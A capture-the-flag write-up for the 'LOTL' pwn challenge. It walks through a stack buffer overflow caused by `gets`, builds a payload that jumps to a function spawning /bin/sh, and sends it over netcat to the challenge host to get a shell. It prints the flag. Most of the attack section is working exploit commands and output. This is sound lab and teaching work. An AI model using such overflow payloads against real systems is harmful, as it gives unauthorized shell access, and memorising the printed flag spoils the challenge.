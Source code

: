 # LOTL
Save the planet!

Well, we should then better LOTL and use what we have, right?

```
nc 46.101.107.117 2102
```

Get a shell and read the flag.

[lotl](lotl)

---

Let's see what we got:
```
$ file lotl
lotl: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=05ea252a13b095c8275884ab0350d0f6848f4e9c, not stripped

$ ./lotl
Welcome! Please give me your name!
> Jan
Hi Jan, nice to meet you!
```

The challenge type is `pwn`, so let's try a bit longer name:
```
4 ./lotl
Welcome! Please give me your name!
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hi aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, nice to meet you!
Segmentation fault
```

Here we go, `segfault`. How can we exploit it?

## Static analysis
Looking what's inside using [Ghidra](https://ghidra-sre.org/):

```
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  ignore_me_init_signal();
  printf("Welcome! Please give me your name!\n> ");
  gets(local_28);
  printf("Hi %s, nice to meet you!\n",local_28);
  return 0;
}
```

Here is the vulnerability, reading a user input into small buffer using `gets`.

There is one more useful method:
```
void profit(void)
{
  system("/bin/sh");
  return;
}
```

The idea is simple, overflow the buffer and jump into `profit` method.

At first, we need `profit` address:
```
$ objdump -t lotl | grep profit
000000000040086d g     F .text	00000013 profit
```

## Smashing the stack
We need to skip 32 (buffer size) + 8 (`rbp`) bytes. Then comes the profit `address`:
```
$ echo -e "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ\x6d\x08\x40\x0\x0\x0\x0\x0" > payload
```

I used `gdb` to make sure `profit` is indeed getting called.

Next, we have 2 options:
- Append a predefined shell command into our payload
- Create an interactive shell

### Option 1: Using predefined shell commands
Let's add `ls` command to our payload:
```
$ echo ls >> payload
$ ./lotl < payload
Welcome! Please give me your name!
> Hi AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ@, nice to meet you!
bochs-2.6.11  bochs-2.6.11.tar.gz  CAT  data  data_storage  lotl  payload  payload.bin  tool.gif
Segmentation fault
```

Great, the command was executed!

### Option 2: Using interactive shell
This is more cool. Use the original payload without any extra commands and execute it like this:
```
$ (cat payload; cat) | ./lotl 
Welcome! Please give me your name!
> Hi AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ@, nice to meet you!
ls
bochs-2.6.11  bochs-2.6.11.tar.gz  CAT  data  data_storage  lotl  payload  payload.bin  tool.gif
pwd
/home/kali/macos
..
```

Finally, replace the local binary with the _netcat_ call:
```
$ cat payload; cat) | nc 46.101.107.117 2102
Welcome! Please give me your name!
> Hi CCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ@, nice to meet you!
ls
challenge1
flag
ynetd
cat flag
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}
```

_(For some reason I had to adjust the payload offest by -8)_

The flag is `he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}`
